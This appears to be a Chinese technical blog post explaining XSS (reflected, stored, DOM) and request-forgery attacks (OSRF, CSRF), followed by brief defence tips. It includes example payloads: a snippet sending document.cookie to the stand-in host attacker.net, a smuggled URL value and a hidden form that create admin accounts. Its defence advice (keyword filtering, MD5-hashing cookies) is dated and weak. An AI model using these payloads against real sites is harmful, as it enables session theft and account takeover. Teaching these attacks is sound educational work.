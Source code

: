 ```yaml
---
title: XSS 和 CSRF 两种跨站攻击
layout: post
comments: true
date: 2016-11-26 19:17:15
tags: [Web安全]
categories: Web安全
description: XSS CSRF 两种 跨站 攻击
photos:
- http://ww4.sinaimg.cn/mw690/e3dde130gw1fa5qff0d0gj20zk0npk1e.jpg
- http://ww4.sinaimg.cn/small/e3dde130gw1fa5qff0d0gj20zk0npk1e.jpg
---
```

差不多刚开始接触前端的时候，经常能看到一些早几年入行大牛们的简历，几乎所有人都会在简历中带上这么一句话：具备基本的 Web 安全知识（XSS / CSRF）。显然这已经成为前端人员的必备知识。

<!--more-->

非常怀念那个 SQL 注入还没有被普遍认可的年代，虽然这么多年过去了，SQL 注入并没有消失，仍然是最危险的漏洞。关于 SQL 注入的原理，可以看我之前写的文章[SQL 注入详解](http://yuren.space/blog/2016/10/01/SQL%E6%B3%A8%E5%85%A5%E8%AF%A6%E8%A7%A3/)。今天是主题是 Web 安全的另外两大杀手，XSS 和 CSRF。

## XSS 的分类

XSS 漏洞有多种形式，分为三类，反射型、存储型和基于 DOM 的 XSS 攻击。这些漏洞的基本原理都是一样的，但是确定和利用漏洞方面又存在很大的差异，下面将对这三种漏洞详细介绍。

### 反射型 XSS 漏洞

前面废话一大堆，还是没有说 XSS 漏洞到底是什么，别急，慢慢看。如果一个 Web 程序可以动态的显示用户的错误消息，就有可能会产生反射型漏洞。

用户浏览网页时发送错误，向服务器请求 URL，比如`www.xxx.com/error.php?message=sorry,an error occurred`，然后服务器根据得到的 message，**不进行过滤**，复制到错误页面的模板中：`<p>sorry,an error occurred</p>`，返回给用户。

这个漏洞有一个显著的特征，应用程序没有进行任何过滤或净化措施，就非常容易受到攻击。`www.xxx.com/error.php?message=<script>alert(1)</script>`，当用户打开错误页面时，就会出现`<p><script>alert(1)</script></p>`，弹出一个消息框。

显然，攻击人员不会很傻的仅仅 alert 一些消息，在 IE 中，如果开启跨站点脚本检测可能无法弹出消息。通常 XSS 都会伴随着会话劫持，攻击者截获通过验证的用户的会话令牌。劫持用户的会话后，攻击者就可以访问该用户授权访问的所有数据和功能。

比如攻击者构造一个这样的 URL，message 信息如下

```
var i = new Image;
i.src="http://attacker.net/"+document.cookie;
```

这样被攻击者通过访问这个恶意的 URL，就会把 cookie 发送给黑客，黑客截获 cookie，就能执行用户的任意操纵。下图是一个简易的流程图：

![](/content/images/2016/11/t5.png)

由于浏览器的同源策略，直接向 attacker.net 发送 document.cookie 是无法获得 www.xxx.com 的 cookie，因为浏览器会对不同源（域）的内容进行隔离，这就是该漏洞被称为跨站脚本的原因。

### 存储型 XSS 漏洞

存储型跨站脚本也是比较常见的漏洞，脚本通常存储在后端数据库中，不经过滤就存储并且显示给用户，此时就会出现这种漏洞。

与反射型的流程不同的是，存储型需要向服务器提出至少两次请求，第一次将含有恶意代码的数据提交给服务器，服务器将数据存储，第二次是受害者想服务器提出访问含有恶意代码数据的页面，恶意代码执行。

与反射型不同的是，存储型不需要一个专门设计的 URL 来接收 cookie，只需要将含有恶意代码的页面发给用户，等待受害者访问即可。不过，也可用存储型的漏洞来获取用户 cookie 进行劫持。

还有一个不同点，反射型的漏洞，必须要等受害者登陆后，才能保证 cookie 的正常获得，而存储型的漏洞，受害者访问页面，说明已经登陆了。

举一个例子，比如某社交论坛存在存储型的 XSS 漏洞，黑客将自己的个人信息一栏修改成恶意的 JS 代码，改代码实现两个功能，首先受害者加自己为好友，其次修改受害者的个人信息为该恶意代码。黑客把个人信息存储并提交给服务器，只需要等受害者访问自己的个人信息页面，浏览器就会执行该恶意脚本，于是可怕的“蠕虫”就开始了。

### 基于 DOM 的 XSS 漏洞

前两种 XSS 漏洞，都表现一种特殊的模式，就是应用程序提取数据并返回给受害者，而基于 DOM 的 XSS 不具有这种特点，攻击者是借助于 JavaScript 来展开攻击的。

1. 用户请求一个经过专门设计的 URL，由攻击者提交，包括嵌入式的 JavaScript；
2. 服务器的响应不包含任何攻击者的脚本，同时服务器也不会对 URL 进行检测；
3. 当用户浏览这个响应时，脚本得以处理。

与反射型漏洞类似，都是对 URL 进行特殊构造，不同的是，反射型是由服务器处理 URL，而 DOM 型是由 JavaScript 脚本来处理。还以刚才那个反射型为例子，假设应用程序返回的错误页面包含以下 JS 脚本：

```
<script>
  var url = document.location;
  var message = /message=(.+)$/.exec(url)[1];
  document.wirte(message);
  //或者
  document.getElementById("show").innerHTML = message;
</script>
```

同样给受害者发送这样的链接 `www.xxx.com/error.php?message=<script>alert(1)</script>`，也可以开展 XSS 漏洞攻击。基于 DOM 的漏洞不局限与 URL，还可以是页面某个 dom 的内容，这和存储型的 XSS 又联系到一起。

## 请求伪造

在 XSS 跨站攻击中，攻击者需要获得受害者的会话令牌，请求伪造也与会话劫持相关，但是攻击者不需要知道受害者的会话令牌，就能够行驶“受害者”的权利。请求伪造有两种，本站点请求伪造（OSRF）和跨站点请求伪造（CSRF），

### OSRF

OSRF 是一种利用存储型 XSS 漏洞的攻击载荷，如果在得知应用程序对 XSS 漏洞过滤的情况下，可以尝试 OSRF 攻击。

比如这是一个某站点 POST 请求，该站点过滤 XSS 攻击，

```
POST /submit.php
Host: xxx.com
Content-Length: ..

type=question&name=get&message=mes
```

然后该信息将会被插入到如下的 HTML 中：

```
<tr>
  <td><img src="/images/question.jpg"></td>
  <td>get</td>
  <td>mes</td>
</tr>
```

这个漏洞很容易找到，直接用 type 的值来表示 jpg 的name，然后我们构造 type 的值等于下面的内容，

```
../admin/newuser.php?username=test&password=123&role=admin#
```

使用上面的介绍，相对应的构造一个表单提交，创建一个管理员权限的用户，普通用户点击是不会成功的，因为权限不够，但是如果是管理员点击该链接的话，就会创建一个秘密账户，所以，即时对 URL 禁用了 JavaScript 脚本，还是可以通过 OSRF 攻击成功。

在攻击字符串的最后使用了 # ，是为了对 .jpg 进行屏蔽，也可以添加 & 组成另一个参数。

以上便是一个简单的本站点请求伪造的例子。

### CSRF

跨站点请求伪造才是跨站伪造的重点内容，攻击者只需要创建一个看似无害的网站，致使受害者的浏览器直接向易受攻击的服务器提交一个请求，执行恶意代码。

仍然需要考虑同源策略，仍然以管理员创建新用户为例，

```
POST /newUser.php HTTP/1.1
Host: xxx.com
Cookie: SessionId=...
Content-Length: ..

name=ro&userrole=admin&password=123456&confirmpassword=123456
```

黑客构造的网站会提交一个 form 表单，并想办法让 form 隐藏：

```
<<!DOCTYPE html>
<html><body>
  <form action="http://xxx.com/newUser.php" method="POST">
    <input type="hidden" name="name" value="ro">
    <input type="hidden" name="userrole" value="admin">
    <input type="hidden" name="password" value="123456">
    <input type="hidden" name="confirmpassword" value="123456">
  </form>
</body></html>
```

当管理员已经登陆的情况下，访问这个恶意网站的时候，就会提交这段脚本，管理员都不知情。因为管理员已经登陆，无需考虑 Cookie 的问题，一个简单的 CSRF 如此。

## 总结

其实攻击很简单，主要的还是如何防御，比如

1. 对一些关键字和特殊字符进行过滤或 URL、HTML 编码，"<>?"或"script，javascript"；
2. Cookie 防盗，在 Cookie 中防止放入用户名和密码，对 Cookie 信息进行 MD5 等算法进行多次散列存放，必要时还要对 ip 和 cookie 进行绑定，一旦检测异常，立马让用户重新登录；
3. 严格控制 URL 访问，对于一些挂马的 ip 和域名，强制无法访问；
4. 等等

共勉。

## 参考

>[跨站脚本攻击介绍](http://blog.csdn.net/yefan2222/article/details/7091863)
>[那些年我们一起学 XSS](https://wizardforcel.gitbooks.io/xss-naxienian/content/7.html)
>[总结 XSS 与 CSRF 两种跨站攻击](https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/)
>书籍：《黑客攻防技术宝典 Web实战篇》